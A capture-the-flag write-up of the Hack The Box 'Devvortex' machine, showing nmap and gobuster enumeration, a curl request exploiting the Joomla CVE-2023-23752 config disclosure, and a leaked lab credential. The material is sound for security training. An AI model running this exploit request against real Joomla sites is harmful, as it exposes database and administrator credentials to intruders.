 # Devvortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png" width="200" height="200">

---------------------------------------------------------------------------------------------------------------------

## Nmap 

`nmap -sC -sV devvortex.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: DevVortex
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Subdomain and directory enumeration 

#### Gobuster

I use wordlist `subdomains-top1million-20000.txt`. You need to install SecLists https://github.com/danielmiessler/SecLists

`gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -k`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://devvortex.htb
    [+] Method:          GET
    [+] Threads:         10
    [+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Found: dev.devvortex.htb Status: 200 [Size: 23221]
    Progress: 19966 / 19967 (99.99%)
    ===============================================================
    Finished
    ===============================================================

Directory enumerations for dev subdomain

`gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://dev.devvortex.htb/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
    /home                 (Status: 200) [Size: 23221]
    /media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
    /templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
    /modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
    /plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
    /includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
    /language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
    /components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
    /api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
    /cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
    /libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
    /tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
    /layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
    /administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
    /cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]                                                       
    Progress: 87664 / 87665 (100.00%)
    ===============================================================
    Finished
    ===============================================================

![image](https://github.com/zer00d4y/writeups/assets/128820441/7203ec9b-fa4f-449d-b59f-1bdb030b8591)

#### CVE-2023-23752

`curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`

![image](https://github.com/zer00d4y/writeups/assets/128820441/b72ce5f2-5931-4c2c-bbc5-3db0dc4b0376)

    lewis:P4ntherg0t1n5r3c0n##

![image](https://github.com/zer00d4y/writeups/assets/128820441/24711425-9456-47ee-b90b-41a1994b6b44)

![image](https://github.com/zer00d4y/writeups/assets/128820441/954a25aa-8759-42d0-9157-c2c8f26c75d5)

Systems -> Extensions

![image](https://github.com/zer00d4y/writeups/assets/128820441/e4cfe7ea-77bf-45b9-bff7-9f0ed98171de)

![image](https://github.com/zer00d4y/writeups/assets/128820441/dba615a3-ce46-420d-bdeb-d5957cc4e5f9)




